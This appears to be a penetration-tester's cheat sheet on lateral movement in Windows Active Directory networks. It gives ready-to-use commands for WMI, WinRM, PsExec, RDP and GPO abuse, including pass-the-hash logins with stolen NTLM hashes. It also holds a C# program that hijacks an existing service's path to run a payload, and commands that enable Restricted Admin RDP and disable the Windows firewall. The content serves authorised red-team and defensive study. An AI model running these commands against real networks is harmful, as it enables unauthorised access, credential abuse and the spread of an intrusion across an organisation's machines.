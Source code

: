 # Lateral Movement

### WMI

#### Native

```
wmic /node:"<computername>" /user:"<domain>\<user>" /password:"<password>" process call create "powershell -enc <cmd>"
```

#### [SharpWMI](https://github.com/GhostPack/SharpWMI)

```
SharpWMI /command:"action=exec computername=<computername> command=\"c:\temp\x.exe\""
```

#### Covenant

```
WMIGrunt <computername> PowerShell
WMICommand <computername> PowerShell
```

A good way to move laterally is to generate an encoded powershell launcher and launch it via WMICommand.

#### Impacket

```
wmiexec.py <username>:'<password>'@<ip>
wmiexec.py -hashes :<ntlm hash> administrator@<ip>
```

### WinRM

#### [evil-winrm](https://github.com/Hackplayers/evil-winrm)

```
evil-winrm -i <ip> -u <domain>/<username> -p <password> -s <scriptdir>
evil-winrm -i <ip> -u <domain>/<username> -H <hash> -s <scriptdir> 
```

#### Windows native

```bash
sc start winrm
Enable-WSManCredSSP -Role "Client" -DelegateComputer "*"
```

Edit registry:

```
Computer Configuration > Administrative Templates > System > Credentials Delegation > Allow Delegating Fresh Credentials.
Computer Configuration > Administrative Templates > System > Credentials Delegation > Allow Delegating Fresh Credentials with NTLM only server authentication.
```

```bash
$user = '<user>'
$pass = ConvertTo-SecureString -AsPlainText '<password>' -Force
$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $user,$pass
New-PSSession -URI http://<url>:5985/wsman -Authentication CredSSP -Credential $cred
Enter-PSSession -id <id>
```

Alternatively if we want to get a PowerShell session with the current user on a remote box we can just run:

```
Enter-PSSession -Computer <computername>
```

#### Covenant

```
PowerShellRemoting <computername> <cmd>
PowerShellRemoting <computername> <cmd> <domain> <user> <pass>
```

#### Resources

{% embed url="https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/" %}

### PsExec

Impacket:

```
psexec.py <username>:'<password>'@<ip>
psexec.py -hashes :<ntlm hash> administrator@<ip>
```

Covenant:

```
CreateRemoteService<computername> gruntsvc "<name>" c:\temp\x.exe
StartRemoteService <computername> gruntsvc
DeleteRemoteService <computername> gruntsvc
```

Metasploit has its own PSExec module as well.

We can do this in C# in a bit more elegant way, without having to copy a file & register a new service (instead we change to path of an existing one briefly).

```csharp
using System;
using System.Runtime.InteropServices;

namespace NetPsExec
{
    class Program
    {
        [DllImport("advapi32.dll", EntryPoint = "OpenSCManagerW", ExactSpelling = true, CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr OpenSCManager(string machineName, string databaseName, uint dwAccess);
        [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        static extern IntPtr OpenService(IntPtr hSCManager, string lpServiceName, uint dwDesiredAccess);
        [DllImport("advapi32.dll", EntryPoint = "ChangeServiceConfig")]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool ChangeServiceConfigA(IntPtr hService, uint dwServiceType, int dwStartType, int dwErrorControl, string lpBinaryPathName, string lpLoadOrderGroup, string lpdwTagId, string lpDependencies, string lpServiceStartName, string lpPassword,string lpDisplayName);
        [DllImport("advapi32", SetLastError = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool StartService(IntPtr hService, int dwNumServiceArgs, string[] lpServiceArgVectors);

        static void Main(string[] args)
        {
            String target = "localhost"; // can be a remote computer name
            IntPtr SCMHandle = OpenSCManager(target, null, 0xF003F);
            string ServiceName = "SensorService"; // can be any service that is not in use and that we can start
            IntPtr schService = OpenService(SCMHandle, ServiceName, 0xF01FF);
            string payload = "powershell.exe";
            bool bResult = ChangeServiceConfigA(schService, 0xffffffff, 3, 0, payload, null, null, null, null, null, null);
            bResult = StartService(schService, 0, null);
        }
    }
}
```

A more advanced Implementation can be found in [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) which even has a python version and doe some additional steps (like restoring the original path).

### RDP

This probably the easiest and most comfortable way. On Linux use xfreerdp for credssp.

```
xfreerdp /u:<username> /p:'<password>' /v:<ip>
xfreerdp /u:<username> /pth:<ntlm hash> /v:<ip>
```

On Windows we use mstsc.exe. When supplied the `/restrictedadmin` parameter, the current users Auth will be used without having to enter any creds (Network Logon, does not cache credentials). When supplying credentials, these will always be cached by windows - even after the rdp session has already ended. Restricted admin mode is disabled by default though (controlled by `HKLM:\System\CurrentControlSet\Control\Lsa` ).

#### [SharpRDP](https://github.com/0xthirteen/SharpRDP)

#### SharpRDP allows to execute commands via RDP on a remote system:

```
SharpRDP.exe computername=target.domain command="..." username=domain\user password=password exec=cmd
```

### GPO Abuse

Find all Principals that can create new GPOs:

```
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=<>,DC=<>" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

Find Principals that can write GP-Link attribute on OUs:

```
PowerShell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl
```

Create GPO

```
New-GPO -Name 'Another Totally Legit GPO' | New-GPLink -Target 'OU=<>,OU=Workstations,DC=<>,DC=<>'
```

#### Resources

{% embed url="https://www.cyberark.com/resources/threat-research-blog/group-policies-going-rogue" %}

### PSRemoting

#### Invoke command on remote host

```bash
Invoke-Command -ComputerName <target> -Credential $cred -ScriptBlock { whoami }
```

### Enable RDP PTH as Administrator

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
netsh advfirewall set allprofiles state off
```
